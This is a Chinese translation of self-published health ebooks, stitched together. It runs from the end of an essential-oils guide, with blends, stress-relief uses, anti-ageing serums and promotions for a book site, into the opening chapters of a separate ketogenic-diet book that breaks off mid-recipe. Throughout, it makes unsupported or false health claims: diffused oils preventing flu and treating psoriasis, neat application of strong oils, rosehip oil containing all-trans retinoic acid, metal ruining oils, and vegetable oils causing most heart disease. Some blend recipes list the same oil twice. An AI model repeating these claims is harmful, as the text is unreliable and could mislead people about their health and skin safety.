面部皮肤比身体其他部位的皮肤更薄、更敏感。确保使用温和的油（包括精油和基础油）并正确稀释，以避免任何不良反应。安全稀释比例为：

- *敏感肌肤的成人：* 0.5%至1%稀释=每盎司基础油混合3-6滴精油
- *正常健康肌肤的成人：* 1%至2.5%稀释=每盎司基础油混合6-15滴精油

面部乳液、面霜和油不仅可用于面部。它们也可用于其他皮肤部位，以达到以下目的：

- 减缓皮肤老化
- 促进伤口愈合
- 减少并改善疤痕外观
- 平衡皮脂分泌
- 支持和增强皮肤中免疫细胞的正常功能
- 改善局部皮肤循环
- 促进皮肤排毒
- 改善肤色
- 舒缓和软化皮肤
- 与面霜或纯露/水一起使用时促进皮肤保湿

## 沐浴

对于健康、舒缓、放松的沐浴，精油要先加入分散剂，然后再加入温热的浴水中。通常，芳香疗法沐浴是将2至12滴精油与1茶匙全脂牛奶、蜂蜜或植物油（基础油）混合制备。

芳香疗法沐浴非常适合：

- 减轻焦虑/压力
- 舒缓身体或精神疲劳
- 缓解肌肉疼痛、紧张和酸痛
- 增强淋巴循环
- 促进更好的血液循环
- 减轻僵硬和疼痛
- 改善健康和肤色
- 支持皮肤排毒

## 蒸汽吸入

这是较受欢迎的芳香疗法方法之一，用于改善呼吸和免疫功能。只需烧开水并加入3至7滴精油。最适合用于此方法的精油包括茶树油、尤加利油、柠檬油和百里香精油。

蒸汽吸入用于：

- 上呼吸道充血（感冒或流感）
- 鼻窦感染或鼻窦炎
- 增强呼吸功能

## 扩香

扩香将精油的芳香和治疗性气味散布到房间中。可以使用市售的扩香器。这种方法用于以下目的：

- 环境氛围
- 失眠及其他睡眠障碍
- 减轻焦虑/压力
- 改善情绪
- 改善空气质量
- 提高警觉性
- 减少空气传播病原体

## 促进思维清晰度的精油复方

*改善记忆力和注意力：*

将牛膝草油、迷迭香、柠檬和薄荷精油各5滴混合。

*提高精神警觉性和快速提神：*

将薄荷和野橙精油各2滴混合。

*缓解头痛：*

将等量的迷迭香、薰衣草、百里香、马郁兰和薄荷混合。加入扩香器以获得更好效果。

## 补充能量的精油复方

*提升能量水平*

将等量的生姜、乳香等充满能量的泥土调精油与迷迭香、薄荷和罗勒等绿色草本精油混合。

*焕发身心活力*

将4滴野橙精油和4滴薄荷精油混合。将几滴复方滴在手帕上或放入扩香器中吸入。

*提升表现和活力*

将葡萄柚和薄荷精油各2滴混合。

*提升自身和环境的整体能量水平*

将8滴葡萄柚油、4滴薰衣草油、4滴柠檬精油和2滴罗勒精油混合。


## 提升情绪的精油复方

### 用于改善聚会氛围

混合薰衣草精油和佛手柑精油各3滴，再加入天竺葵精油2滴。

### 用于情绪疗愈

混合佛手柑、野橙、乳香和佛手柑精油各2滴。将此精油复方加入扩香器。

## 支持免疫力的精油复方

### 用于疏通鼻道并促进健康的免疫反应

混合柠檬、薄荷和薰衣草精油各2滴。将此复方放入扩香器。此复方最适合在夏季和春季使用。

### 用于增强呼吸功能

混合迷迭香、桉树、薄荷、柠檬和青柠精油各1滴。将其加入扩香器。此复方在流感和感冒季节对增强呼吸系统非常有帮助。

### 用于对抗感冒

混合橙油20滴，杜松浆果、松树和桉树精油各10滴。加入生姜精油和玫瑰木精油各6滴。最后，加入生姜精油4滴。感觉不适或感冒病毒开始侵袭时，将此复方滴几滴加入扩香器。

### 用于预防感冒和流感

混合薰衣草油5滴、桉树油5滴、拉文萨拉3滴和月桂油2滴。在整个感冒和流感季节将此复方用于扩香器，以预防生病。

### 用于缓解过敏症状

混合薰衣草油、柠檬油和薄荷油各2滴。用手帕滴几滴此复方吸入，或与扩香器一起使用。

## 促进睡眠和放松的精油复方

### 用于营造放松氛围

加入马郁兰、橙和薰衣草精油各2滴。然后加入罗马洋甘菊1滴和德国洋甘菊1滴。将此复方加入扩香器。

### 用于营造舒缓氛围

混合青柠油6滴、佛手柑油6滴和葡萄柚精油6滴。加入生姜精油4滴和檀香精油2滴。将此复方加入扩香器。

### 用于一天结束时放松身心

混合薰衣草精油10滴，以及玫瑰草和玫瑰天竺葵精油各2-3滴。

### 用于睡眠

混合以下每种精油各1滴：依兰依兰、广藿香、薰衣草和佛手柑。放入扩香器，在床边使用，以促进更快入睡。

## 第 3 章 使用精油缓解压力

缓解压力也是使用精油的顶级益处之一。这些是方便的缓解措施，因为你可以随身携带。它们装在小容器中，却蕴含强大的功效。使用起来快速简便。只需在手帕或衣服上滴几滴，你就能一整天闻到缓解压力的香气。你可以将几滴加入扩香器，让你的工作场所、汽车或家中同时保持怡人放松的气味。你也可以使用一些精油进行更放松的按摩或舒缓的沐浴。

精油的气味和分子可以触发大脑中控制情绪的区域。它们促进身体释放有助于放松、改善情绪和带来镇静能量的化学物质。用于缓解压力的精油分为3类：

### 影响压力情绪成分的精油

这些精油促进身体平静与放松。包括：

### 罗马洋甘菊油，用于烦躁不安；促进平静

用于缓解压力时，将2-4滴精油涂抹在手腕和脚踝上。这将促进体内更好的能量流动以对抗压力。在手帕上滴几滴，全天呼吸其香气。在扩香器中放入约2-4滴，让工作场所或家中散发放松平静的香气。

### 天竺葵，用于释放负面记忆；具有振奋、放松的效果

使用时，用你喜欢的基底油（荷荷巴油、杏仁油、橄榄油、椰子油等）按50:50比例稀释。将2至4滴混合油涂抹在太阳穴和腹部。将同样滴数的混合油滴在手帕上或手掌上，吸入其令人振奋的香气。将此混合油几滴加入扩香器，让家中或工作场所散发放松振奋的香气。

### 薰衣草，用于缓解压力、沮丧和愤怒

用于缓解压力时，将2至4滴涂在手帕上或加入扩香器，直接吸入其镇静香气。

### 马郁兰，“幸福”草本；支持健康神经系统功能

使用前，用喜欢的基底油稀释至50:50浓度。然后将几滴稀释后的混合油加入扩香器或滴在手帕上，直接吸入。

### 柠檬香蜂草，用于释放内心负面情绪

它是最昂贵的精油之一，仅次于玫瑰精油。蒸馏成本高昂，因为需要大量植物原料，而只能获得极少量精油。约3吨柠檬香蜂草植物原料仅能产出1磅精油。纯（治疗级）柠檬香蜂草油的价格可达每磅约$15,000。每5毫升瓶通常售价在$150-$250之间。

也有一些售价便宜得多，约每5毫升$10。在精油领域，高品质精油能带来最大益处，而顶级精油确实非常昂贵。

使用柠檬香蜂草油缓解压力时，可纯用或未稀释使用。将几滴精油加入扩香器或滴在手帕上，直接吸入香气。

此类别下的其他精油包括以下内容。使用方法与此类别中前面讨论的精油相同。

- 岩兰草，用于接地效果
- 佛手柑，用于平静；振奋
- 茉莉，用于放松；振奋
- 橘子，用于平静
- 橙，用于带来喜悦与平和；提升身心

### 支持压力身体成分的精油

这些精油支持身体方面，例如肌肉紧张和酸痛、关节疼痛、心率加快、血压升高等。由于它们能改善受压力影响的身体方面，这些精油也被视为补剂。这些精油包括：

### 百里香

以20:80比例稀释使用，即1份百里香精油用4份植物油稀释。涂抹在酸痛或紧张的肌肉上，或吸入其香气，以振奋疲惫和受压的肌肉。

### 缬草

这种精油具有木质和霉味。使用时，将精油直接涂抹在酸痛或紧张的肌肉上。通过扩香器吸入，或简单地在手帕上滴几滴吸入。

### 薰衣草

直接涂抹在疲惫和受压的肌肉上。吸入其香气以促进整体放松。

### 广藿香

未稀释或纯用。在酸痛、疲惫的肌肉上涂抹少量。通过扩香器或手帕吸入其振奋香气。

### 黑胡椒

以50:50比例稀释使用。涂抹在僵硬或酸痛的肌肉上。吸入香气也有助于放松受压的肌肉。

### 影响恐惧的精油

影响恐惧的精油是那些能让身体接地、使其重新与心灵正确对齐的精油。这让人保持临在，更觉察当下或现实。使用这些精油时，遵循前面提到的其他精油的相同指南。这些精油包括：

- 柠檬（以50:50比例稀释使用）
- 柠檬香蜂草（未稀释使用）
- 岩兰草（未稀释使用）
- 玫瑰（昂贵；未稀释使用）
- 依兰依兰（纯用或未稀释使用）

压力还有心理成分，也可受精油影响。这些精油镇静会增加日常压力的内心杂念。它还释放压垮身心的负面情绪。它促进头脑清晰，并有助于实现更好的精神专注。用于这一成分的精油包括：

### 迷迭香

以50:50比例稀释使用。将2至4滴涂抹在紧张部位。将少量加入扩香器或手帕中直接吸入。

### 薄荷

以与迷迭香精油相同的方式使用。

### 柠檬

以与迷迭香精油相同的方式使用。

### 雪松

纯用或未稀释使用。涂抹在打结、紧张的肌肉上，太阳穴、手腕和/或脚踝处。加入扩香器或滴几滴在手帕上吸入。


## 甜杏仁油

本油富含维生素 K 和 E。这些维生素促进皮肤细胞再生并维持弹性。它还能增强皮肤的血液循环。血液带来氧气和更多营养，保持皮肤健康且年轻。血液还提供必要的保湿，使皮肤保持柔软。良好的血液循环也意味着皮肤细胞的废物被清除并输送到适当的器官进行排泄。

甜杏仁油具有天然的防紫外线能力。这可以保护皮肤免受紫外线辐射（光老化）导致的加速老化。对于长时间在阳光下活动的人来说，这是极力推荐的油。

本油无气味。这使其成为完美的基底油，因为它不会干扰添加精油的香气。对于不喜欢使用气味浓烈的精油的人来说，这也非常完美。

甜杏仁油是轻质油。涂抹后不会在皮肤上留下很重的油腻感。其质地几乎与橄榄油相同。它能被皮肤轻松快速吸收。

## 有机初榨椰子油

本油富含维生素 E，是一种非常强效的抗氧化剂。它能保护皮肤免受自由基引起的氧化损伤。氧化损伤是导致过早或加速老化的主要因素之一。它会使皮肤干燥、起皱且更容易受损。有机初榨椰子油中的维生素 E 在预防这些方面非常出色。正因如此，该油是用于抗衰老精华液的领先基底油之一。

除了抗氧化维生素 E 外，椰子油还含有大量称为月桂酸的中链甘油三酯。这是一种非常健康的化合物，有助于延缓皮肤衰老的迹象。它还具有强效的抗菌特性，对皮肤温和但对细菌有效。维生素 E 和月桂酸共同作用，促进皮肤愈合，同时治疗或预防皮肤感染。

抗衰老并不是在皮肤上使用椰子油的唯一好处。它还有助于预防或减少蜂窝组织的形成。椰子油能增强皮肤的最外层——表皮。这一好处也有助于淡化妊娠纹并消除一种称为毛周角化症的状况。

椰子油具有天然的防晒特性。它能保护皮肤免受有害紫外线照射造成的损伤。它完全天然，100% 不含可能对皮肤造成损害的人工化合物。

## 鳄梨油

与之前讨论的油相比，这种油非常浓稠，但却是健康油之一。鳄梨油富含植物甾醇类化合物，可促进皮肤胶原蛋白生成。胶原蛋白改善皮肤弹性，使其看起来柔软且更年轻。维生素 A 和 E 在鳄梨油中也很丰富。这些维生素是最能促进皮肤健康并延缓衰老迹象出现的维生素之一。

鳄梨油对于敏感或薄的皮肤区域，如面部，可能过于浓稠。仅在夜间或计划整天待在家里时使用这种油。涂抹在皮肤上可能会留下光亮、油腻的外观。

## 摩洛哥坚果油

这种油约由 80% 的脂肪酸组成。摩洛哥坚果油非常适合用于促进更好的皮肤保湿。这些脂肪酸还有助于恢复皮肤弹性并防止细纹和皱纹的出现。

## 玫瑰果籽油

它可用作基底油或辅助成分。玫瑰果籽油以其在任何植物油中最高的天然维生素 A 浓度而闻名。玫瑰果籽油中的维生素 A 以 ATRA 或全反式维甲酸的形式存在。

ATRA 在减少皱纹深度和淡化细纹方面非常有效。它也是促进受损皮肤恢复的顶级油之一。ATRA 促进新的皮肤细胞生长速度，以替代干燥、受损和老化的皮肤细胞。它还促进皮肤表面深处胶原蛋白的生成。

玫瑰果籽油中大量存在的必需脂肪酸包括 omega-6 亚麻油酸和 omega-6 亚油酸。这些必需脂肪酸支持并改善皮肤的外观、质地和弹性。

与大多数其他护肤植物油相比，玫瑰果籽油要轻得多。这使其成为理想的油，可在不产生油腻感和外观的情况下使用。

### 胡萝卜籽油

富含类胡萝卜素，胡萝卜籽油具有很强的抗氧化特性。这增强了身体对阳光中有害紫外线的天然保护性免疫反应。这种作用可促进对晒伤的更大保护。类胡萝卜素刺激皮肤细胞再生。它们还有助于排毒过程，清除皮肤上的废物、污垢和毒素。这些特性都有助于胡萝卜籽油促进皮肤健康的效力。凭借这些特性，胡萝卜籽油还能帮助治疗像银屑病和湿疹等慢性皮肤问题。

### 天竺葵油

这种油在减轻炎症性皮肤状况方面非常有效。它可以淡化任何老年斑并有助于均匀肤色。天竺葵油促进皮肤表层下更好的血液循环。更好的血流支持更快的细胞再生。这对于淡化皱纹、疤痕和其他皮肤瑕疵非常有帮助。

### 沙棘浆果油

这种油富含维生素，能有效逆转衰老的迹象。这种油可为干燥皮肤保湿并滋润。它也用于治疗痤疮。涂抹沙棘浆果油可减少湿疹和色素沉着等皮肤问题的可见度。

### 石榴油

石榴油的抗氧化含量非常高。当对抗自由基引起的氧化损伤时，这种油是很好的选择，氧化损伤会带来皱纹和老年斑等皮肤衰老迹象。抗氧化剂还能减缓皮肤老化过程。石榴油含有鞣花酸和二氢紫云英酸，进一步滋养皮肤，增强其弹性并加速细胞再生。这种油还用于舒缓受损、干燥、烧伤或受刺激的皮肤，如受银屑病或湿疹影响的皮肤。

### 橙花油

这种油富含具有强效抗菌、抗炎特性的化合物。橙花油涂抹在受刺激或受损的皮肤上具有舒缓作用。它有助于疤痕愈合和改善皮肤血液循环。它还有助于减少细纹和皱纹并淡化妊娠纹。

### 柏木油

这种油对血液循环有积极影响。这种作用有助于减少皮肤表面下破裂毛细血管和静脉曲张的外观。柏木油还能增强皮肤。

### 乳香油

这种油刺激皮肤细胞更快再生。它还能减少疤痕、皱纹和细纹。涂抹乳香油可收紧松弛皮肤，均匀肤色并平衡皮肤 pH 值。

### 柠檬油

这种油能有效淡化难看的暗斑。它可预防和减少细纹和皱纹。

### 檀香油

受刺激和受损的皮肤在涂抹檀香油时会感到舒缓。这款油还有助于淡化疤痕、皱纹和纹路，以达到光滑的皮肤。

### 没药油

每日使用没药油可获得年轻、健康的肤色。皮肤在使用这种油后也会变得更光滑、更强韧。

### 迷迭香油

使用迷迭香油时皮肤会收紧。皱纹和纹路在使用这种油后明显减少。

## 如何使用这些精油获得抗衰老益处

以下是一些配方，帮助你了解如何使用这些精油并实现其抗衰老效果。

### 紧致抗衰老护肤精华

混合 2 汤匙甜杏仁油和玫瑰果籽油各 2 汤匙。加入 10 滴天竺葵油和柏木油以及 7 滴乳香油。早晚使用此精华，以获得更紧致的皮肤和均匀的肤色。

### 超强抗衰老护肤精华

将 ½ 杯杏仁核油与 10 滴玫瑰果籽油、檀香油和胡萝卜籽油混合。然后各加入 5 滴乳香油、迷迭香油、没药油、柠檬油和天竺葵油。清洁后在夜间使用此混合物。

### 抗氧化护肤精华

混合 ½ 杯杏仁核油和 20 至 25 滴玫瑰果籽油和胡萝卜籽油。清洁皮肤后使用。


## 混合、储存和使用抗衰老精油混合物的提示

### 混合指南

将指定用量一半的基础油倒入储存容器中，例如一个小瓶子。加入其他精油，然后用剩余的基础油将容器加满。

务必在瓶口留出一点空间。这个空间可以让精油有“呼吸”的余地。

避免快速搅拌或剧烈摇晃等用力动作。这会破坏精油脆弱的有机化合物。

### 储存指南

混合精油时使用玻璃或陶瓷工具。塑料工具也可以，但绝不能让精油及其混合物接触金属。这会干扰精油的健康功效。

避免将精油和混合物暴露在直接热源或阳光下。这会导致精油更快氧化并容易变质。精油的化学成分也可能因光照而改变。最好使用琥珀色瓶子。颜色越深越好。

### 使用指南

使用精油混合物时，少量即可见效。只需使用几滴就能达到理想效果。

在将精油混入任何配方之前，请先进行过敏测试。在 hand 背或耳后滴几滴精油。等待几个小时，观察是否出现刺激、灼烧、疼痛、发红或瘙痒等不良反应。

## 结论

希望你喜欢阅读我关于*精油：初学者指南，了解精油的非凡功效——用于减肥、芳香疗法、缓解压力和抗衰老的精油配方*这本书。

希望这本书能帮助你理解这些精油可以多么简单、愉快且有效。

下一步就是开始尝试这些不同的配方，并体验它们带来的健康益处。

最后，如果你喜欢这本书，我想请你帮个忙：能否好心在亚马逊上为这本书留下评论？不胜感激！

[点击此处前往亚马逊为本书留下评论！](#)

谢谢，祝你好运！

## 额外福利：获取我提供的更多免费视频和书籍！

感谢阅读我的书！希望你能从中获得巨大价值。我想通过赠送更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下方链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你将获得的一切都会对你有用。我将提供：

- 我写的更多书
- 制作特色菜肴的视频
- 我最喜欢的健康相关产品信息
- 以及更多内容！

[点击此处获取所有这些信息！](#)

如果你还没有看过，一定要看看我的新网站*KindleBookSpot.com*。这是我一直在做的一个新项目，我真的希望它对读者有价值。我做这个网站是因为我想给你们一个更简单的方式，在一个地方找到最热门的折扣 Kindle 书籍。以下是我的网站所提供内容的一些详情：

- 畅销免费 Kindle 电子书列表
- 折扣小说和非虚构类书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新晋作者在成为畅销书之前推广新书的地方。所以如果你想推广自己的书，请访问我的网站*KindleBookSpot.com*。

希望这个网站对你有用，也希望在那里见到你！

***订阅我们在 KindleBookSpot 不断壮大的社区，以便在最好的书打折和免费时收到通知。***

# 生酮饮食挑战：现在就减肥！超棒的生酮饮食食谱，以最大脂肪燃烧和健康生活改变你的人生

*底部免费报告中包含额外内容*

*另外，在[KindleBookSpot.com](KindleBookSpot.com)获取更多免费和特价书籍*

## 目录

- 引言
- 第1章：多给我些食物！
- 第2章：停！……别吃那个
- 第3章：早餐组合
- 第4章：主打菜肴
- 第5章：超级零食
- 结论

## 引言

如果你正在寻找通过减少脂肪来减肥的方法，你可能听说过生酮饮食。生酮饮食是一种低碳水化合物饮食，含有大量蛋白质和大量脂肪。这种饮食之所以如此有效，是因为它迫使你的身体燃烧脂肪来获取能量，而不是从碳水化合物中获取葡萄糖。这是一种必须尝试的饮食，我保证它会帮助你实现目标，并让你在过程中感觉棒极了。

生酮饮食的原理是迫使身体将脂肪转化为能量，而不是使用碳水化合物获取能量。这为你的器官提供运作所需的能量，也非常有利于它们的健康。

许多人担心，如果你的身体燃烧过多脂肪来产生能量，低碳水化合物饮食会导致葡萄糖水平不足。这实际上是错误的，并且已在许多针对低碳水化合物饮食者的研究中得到证明。重要的是要明白，即使你的身体将葡萄糖转化为脂肪，反过来并不成立。然而，你的身体可以利用你摄入的蛋白质，并将其中的一部分转化为葡萄糖，而葡萄糖是身体所需的。

生酮饮食的主要好处之一是它能让你更长时间保持饱腹感，而这是人们避免各种饮食的最大原因之一。此外，生酮饮食会导致碳水化合物摄入量低，从而带来更大的体重减轻。这是因为低碳水化合物饮食有助于排除体内多余水分，从而加快肾脏排出钠的速度。

你可能会想，大量脂肪怎么会对你有好处？许多人不了解脂肪有两种不同类型。有“坏”脂肪，它们倾向于附着在腹部器官上，而这是最难减掉的一些脂肪。低碳水化合物饮食有助于减少这些脂肪，这很重要，因为这些脂肪会引起炎症，并增加胰岛素抵抗，从而导致长期健康问题。

然而，并非所有脂肪都是坏的。有许多优质脂肪实际上对能量产生至关重要，这些脂肪可以在黄油和橄榄油中找到。

除了帮助减轻体重外，这些饮食还通过降低甘油三酯水平来帮助降低患心脏病的风险。这可能是由摄入过多碳水化合物引起的，而碳水化合物在我们的食物中很常见。

现在我们将开始生酮饮食之旅，我完全相信，如果你开始这样做，你将获得巨大的健康益处，也会对自己感觉好得多。让我们开始吧。

别忘了在底部查看我最喜欢的饮食之一：

了解我通过3周饮食法快速减掉顽固多余脂肪所用的策略。

前往底部获取更多信息，并领取你的免费报告和额外内容！

## 在我们开始之前……额外福利：获取我提供的更多免费视频和书籍！

感谢阅读我的书！希望你能从中获得巨大价值。我想通过赠送更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下方链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你将获得的一切都会对你有用。我将提供：

- 我写的更多书
- 制作特色菜肴的视频
- 我最喜欢的健康相关产品信息
- 以及更多内容！

[点击此处获取所有这些信息！](link)

## 第 1 章：多给我些食物！

不同类别的食物构成了生酮饮食的主体。重要的是，这些食物类别应按正确数量摄入，才能获得生酮饮食的益处。


### 关于“净碳水化合物”

随着多年来“低碳水”饮食日益流行，许多健康专业人士都在问一个问题：“碳水化合物什么时候不再是碳水化合物？”

食品制造商希望顾客继续从他们那里购买，因此为了向关注低碳水的节食者提供所有这些美味的富含碳水化合物的食物，他们创造了一个新的碳水化合物类别。这种新型碳水化合物声称能提供碳水化合物食物的所有好处，而没有其缺点。

“净碳水化合物”的理念建立在并非所有碳水化合物在体内都以相同方式起作用之上。有些被快速吸收，迫使血糖水平飙升。另一些则作为脂肪储存在体内以备后用，甚至有些碳水化合物（如纤维）在消化道中缓慢起作用，实际被吸收的食物很少。

食品制造商调整标签，在产品上标出“净碳水化合物”，这几乎总是显著低于食品实际标签上的数值。这里需要注意的重要一点是，FDA 批准食品标签上的任何内容都会经过审查并获得 FDA 许可，但制造商仍然在法律上被允许在食品标签正面放置误导性信息。

为了计算净碳水化合物，食品制造商取碳水化合物总数，减去纤维和糖醇。

答案很简单；据称这些碳水化合物对血糖水平影响很小。然而，一些医生警告说，并非所有纤维和糖醇都这样起作用。事实上，除了具有通便作用并给本已需要控制的饮食增加热量外，一些糖醇确实可能提高血糖水平，尽管包装上有相关声称。

### 脂肪与油脂

多年来人们对脂肪存在误解，甚至不惜采取极端手段完全避免脂肪。然而，生酮饮食的主要重点是向身体提供脂肪，使其分解以产生能量。

正因如此，才高度重视摄入脂肪和油脂，为身体提供这种燃料来源。同样重要的是要记住，脂肪有不同类型；有些可能是有益的，而另一些则可能带来健康风险。

#### 饱和脂肪

饱和脂肪使你的免疫力保持在最佳水平、骨密度正常，并控制睾酮水平。长期以来，这类脂肪被归类为不应经常摄入的有害“反式脂肪”之一。然而，研究表明它们对我们的健康非常必要；事实上，它们对身体的整体健康不构成风险。

含有这类脂肪的食物包括肉类、鸡蛋和黄油，它们有助于改善 HDL/LDL 胆固醇水平。

#### 多不饱和脂肪

多不饱和脂肪经过高度加工，对健康有害。研究表明，大多数心脏病流行是由液态植物油和反式脂肪引起的。例如，我们涂在面包上的大多数人造黄油都含有这些加工植物油，因此控制其摄入量可能是个好主意。

人们不应将天然多不饱和脂肪与加工多不饱和脂肪混淆。天然多不饱和脂肪主要存在于富含脂肪的鱼类中，有助于改善 HDL/LDL 胆固醇水平。另一方面，加工多不饱和脂肪会恶化 HDL/LDL 胆固醇水平，因此对你的健康构成风险。

#### 单不饱和脂肪

橄榄油和葵花籽油是这一类的一些例子。这类脂肪已被广泛认为是健康的。研究表明，它们能带来更好的胰岛素抵抗水平和更好的 HDL/LDL 胆固醇水平，这对我们的整体健康有益。

#### 反式脂肪

反式脂肪不属于脂肪油类别，但值得一提，因为这些脂肪源于化学修饰。这些脂肪经过氢化过程以延长保质期，该过程会调整脂肪分子中氢的位置。这已被证明对我们的身体非常有害。它可能导致 HDL/LDL 胆固醇水平升高，可能对你的健康构成极大危险。

#### 胆固醇与脂肪

胆固醇是存在于大多数身体组织中的一种化合物。它是细胞膜非常重要的组成成分；这些脂肪不断在你的血液中流动，当胆固醇颗粒相互碰撞、在主要动脉中形成团块时，危险就会出现。这可能导致一种称为动脉粥样硬化的疾病，即动脉阻塞，可能引发心脏病发作等严重健康风险。

除脂肪外，HDL、LDL 和甘油三酯对身体的构成也很重要。

#### HDL

这些是高密度脂蛋白。它们通常被称为“好胆固醇”，负责将胆固醇从身体组织转移到肝脏进行分解。它们还通过从身体组织中清除不需要的胆固醇，并降低血管阻塞和心脏病风险，帮助减少血液中 LDL 的数量。

#### LDL

这些是低密度脂蛋白。这是胆固醇的坏版本。LDL 将肝脏中经过加工的胆固醇转移到身体组织中，增加血液中的胆固醇量，以及发生动脉硬化和心脏病的可能性。

#### 甘油三酯

当人摄入脂肪类食物时，脂肪被消化并吸收到组织中。在组织中，脂肪以甘油三酯的形式存在，以便于在组织和血液之间运输。

保持较低的 LDL 计数可降低胆固醇颗粒相互碰撞的机会，并降低发生阻塞的风险。高甘油三酯水平可能需要增加 LDL 以便它们能够被运输；这可能会增加结块的风险，并增加患心脏病的几率。

对于生酮饮食，你应该食用富含 omega 3 脂肪酸油的食物，如鲑鱼、金枪鱼和鳟鱼，仅举几例。此外，摄入饱和脂肪和单不饱和脂肪，如黄油、夏威夷果、牛油果、蛋黄和椰子油。这些是首选，因为它们具有稳定的化学结构，对身体的炎症反应较小。

你应该致力于减少反式脂肪的摄入。这意味着避免使用氢化脂肪，因为它们含有高浓度的反式脂肪，对你的健康有害。简而言之，如果你喜欢油炸食品，请选择非氢化选项，如酥油和椰子油。这能确保这些油的氧化降至最低，这意味着你将获得必需油脂而不会摄入所有反式脂肪。

警惕促炎的 omega 6 脂肪酸油。这可能涉及注意你摄入的任何坚果或种子基食物。以下是一份生酮饮食食物清单，它们是脂肪和油脂的极好来源，以后不会给你带来问题：

- 牛油果
- 黄油
- 椰子油
- 橄榄油
- 鸡油
- 花生酱
- 非氢化猪油

### 蛋白质

蛋白质负责修复磨损的细胞以及一般生长。我们身体的许多组织主要都是蛋白质；从皮肤到头发，甚至指甲。蛋白质有助于血液中控制各种身体功能的激素的生成和调节。

采用生酮饮食时，蛋白质摄入应充足。它应刚好满足你的蛋白质需求，然而，你应避免大量摄入蛋白质，因为这可能导致身体分解蛋白质来供能。这意味着身体会分解自身组织，并在此过程中损耗自身。

生酮饮食有多种蛋白质来源，包括：

- 任何类型的鱼。
- 白肉和红肉

其他来源可以包括贝类，如牡蛎、龙虾和螃蟹。全蛋、培根和香肠也是非常好的蛋白质来源。


### 蔬菜

蔬菜在生酮饮食中极其重要。它们是维生素的巨大来源，而维生素对于产生和维持健康的免疫系统以对抗疾病是必需的。选择任何在地面以上生长且为叶状绿色的蔬菜。然而，一些蔬菜含糖量高，不应用于生酮饮食。这种饮食的最佳蔬菜类型营养丰富、碳水化合物低，通常呈深色且多叶。包括菠菜和羽衣甘蓝或任何类似的蔬菜。以下可作为生酮饮食的良好蔬菜：

- 菠菜
- 西兰花
- 青豆
- 黄瓜
- 蘑菇
- 黄油生菜
- 泡菜
- 花椰菜
- 芦笋

此外，洋葱、西红柿和大蒜也可以纳入生酮饮食。

### 乳制品

其他应纳入低碳水化合物饮食的东西包括全脂乳制品。这些包括重奶油、硬质和软质奶酪、酸奶油和农家奶酪。

### 饮料

生酮饮食的一个影响是你会非常脱水，因此喝大量水非常重要，除此之外还要喝咖啡和茶等其他液体。小心不要喝任何含糖液体，因为这些会破坏你的饮食；远离含糖饮料是最好的选择。如果你渴望甜味，使用液体人工甜味剂是可以的。甜味剂的例子包括：

- 甜叶菊
- 三氯蔗糖
- 赤藓糖醇
- 木糖醇
- 罗汉果

### 香料

对食物中使用的香料要非常小心。一些香料碳水化合物含量高，因为它们大多与糖预混；甚至普通的食盐通常也混有粉状葡萄糖，因此许多人考虑使用海盐。

以下是适合低碳水化合物饮食的香料清单：

- 海盐
- 黑胡椒
- 肉桂
- 辣椒粉
- 姜黄
- 欧芹
- 迷迭香
- 鼠尾草

## 第 2 章：停！……别吃那个

生酮饮食中到底应该避免哪些食物？以下可作为一般清单：

- 糖类：避免任何含有红糖、甘蔗糖、玉米糖浆、蜂蜜或蔗糖的东西。此外，避免水果，因为大多数水果果糖和蔗糖含量高。简而言之，如果是‘甜的’，就不要吃。
- 谷物：包括小麦、大米、高粱、大麦以及由这些谷物制成的产品，如小麦粉、意大利面、薄饼、饼干和蛋糕。
- 玉米：避免玉米制品，如玉米面包、玉米片、爆米花和玉米粉。玉米可用作其他产品的增稠剂或防腐剂，所以请记得阅读标签。
- 淀粉类：避免土豆、红薯和山药等食物。这也适用于它们的制品，如薯片、薯条和土豆丸。
- 盒装加工食品：这些食品大多小麦和糖含量高，碳水化合物含量高。此外，避免罐装汤和炖菜，因为大多数含有隐藏的淀粉增稠剂。
- 水果：任何水果果糖含量都高。浆果碳水化合物最低；因此，如果你想在饮食中加入水果，一两颗浆果不会有问题。
- 豆类：包括豆类、花生和扁豆，其淀粉含量非常高。
- 啤酒：啤酒是谷物的产物，碳水化合物含量高。如果必须饮酒，请选择低碳水化合物啤酒。
- 非代糖汽水：加糖汽水含有大量果糖和玉米糖浆，其中含有大量应避免的碳水化合物。
- 牛奶：尤其是脱脂牛奶，因为它含有一种名为乳糖的糖。发酵乳制品如酸奶乳糖较少，因为发酵所用的细菌会消耗掉所有乳糖。如果必须摄入乳制品，请选择发酵产品。

如果你计划开始生酮饮食，你应该计划做出许多牺牲，尤其是如果你是美食爱好者。减少糖分摄入并避免淀粉类食物将有助于使饮食取得成功。

## 第 3 章：早餐组合

### 鸡蛋炒散

**配料**

- 1 汤匙无盐黄油
- 2 个大鸡蛋
- 一撮盐和现磨黑胡椒

**做法**

1. 用叉子搅打鸡蛋
2. 用平底锅用小火融化黄油。
3. 加入蛋液。
4. 用柔性刮刀轻轻将鸡蛋推向锅中心，让水状部分流向边缘。用刮刀移动鸡蛋使其烹饪，直到鸡蛋凝固。这大约需要 2 到 3 分钟。
5. 用盐和胡椒调味；趁热上桌。

### 花椰菜华夫饼

**配料**

- 2 个鸡蛋
- 1/4 杯马苏里拉奶酪
- 1/4 杯切达奶酪
- 1 杯粗磨花椰菜
- 1 1/2 汤匙切碎的新鲜韭菜
- 1/2 茶匙蒜粉
- 1/4 茶匙洋葱粉
- 红辣椒碎
- 海盐
- 现磨黑胡椒

**做法**

将花椰菜和奶酪放入食品加工机中。脉冲至充分混合。

加入鸡蛋、韭菜、蒜粉和洋葱粉，以及少许红辣椒碎、盐和黑胡椒。加工至混合均匀。

将混合物倒入华夫饼机中，煮至想要的脆度。

将华夫饼放在盘子上，上面放酸奶、奶油奶酪和/或碎培根。

### 猪肉贝果

**配料**

- 3 个洋葱，切碎
- 4 磅有机瘦猪肉末
- 2 汤匙黄油或培根油脂
- 1 1/2 杯无糖添加番茄酱
- 3 个大鸡蛋
- 2 茶匙海盐
- 2 茶匙甜椒粉
- 1 茶匙现磨黑胡椒

**做法**

将烤箱预热至 400 华氏度。用烘焙纸衬上 1 或 2 个烤盘。

将不粘平底锅置于中火上，融化黄油或加热培根油脂。加入洋葱翻炒至半透明。从火上移开，放置至室温冷却。

